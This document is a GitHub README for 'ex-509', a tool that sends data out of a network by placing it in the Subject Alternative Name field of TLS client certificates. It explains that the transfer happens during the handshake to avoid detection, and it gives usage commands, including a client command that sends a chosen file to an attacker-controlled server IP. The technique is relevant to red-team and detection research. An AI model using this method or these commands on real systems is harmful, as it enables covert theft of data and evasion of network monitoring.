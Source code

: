 # ex-509
> Data exfiltration abusing x509 certificates

In most TLS connections, typically only the identity of the server is verified through certificates.
However, the TLS protocol allows for mutual authentication of both the client and server during the handshake.
This exfiltration technique stores payload data in the Subject Alternative Name (SAN) field of the client certificate,
and transfers the data back to the attacker's machine during the TLS handshake itself.
This makes the exfiltration harder to detect, since the transfer happens before the actual TLS session is established.

## Requirements
Python >= 3.4


Use the package manager [pip](https://pip.pypa.io/en/stable/) to install the required libraries.

* On both the client and server machines, [pyOpenSSL](https://www.pyopenssl.org/en/stable/install.html) is required for certificate generation and parsing:

* On the server machine, [tlslite-ng](https://pypi.org/project/tlslite-ng/) is required for more control over the TLS handshake:

## Usage

### Server
Start listening for connections:
```sh
python3 ex-509.py
```

To specify a custom certificate, private key, or port number:
```sh
python3 ex-509.py --cert [PATH TO CERT] --key [PATH TO KEY] --port [PORT]
```

*If no certificate is specified, one will be generated and used automatically*

### Client
Sending a file to the server:
```sh
python3 client.py -f [PATH TO FILE] -i [SERVER IP] -p [PORT]
```
